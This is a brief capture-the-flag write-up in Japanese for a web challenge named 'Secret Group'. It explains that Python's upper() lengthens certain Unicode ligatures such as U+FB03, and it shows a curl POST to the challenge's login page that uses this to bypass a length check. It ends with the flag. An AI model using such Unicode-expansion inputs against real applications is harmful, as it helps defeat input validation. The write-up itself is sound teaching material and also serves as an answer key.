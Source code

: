 # Secret Group

## 問題文
> Come and get the flag... Only if you can pass these impossible to pass conditions! Author: NoobMaster
>
> http://challs.n00bzunit3d.xyz:42552

## 解法
upper()により文字数が増える文字を探す
Unicode 0xfb03の`ﬃ`などが該当（uppser()すると3文字になる）
```
$ curl -L -X POST -d "username=ﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃﬃ" http://challs.n00bzunit3d.xyz:42552/login
```

## flag
> n00bz{1mp0551bl3_c0nd1t10n5_m0r3_l1k3_p0551bl3_c0nd1t10ns}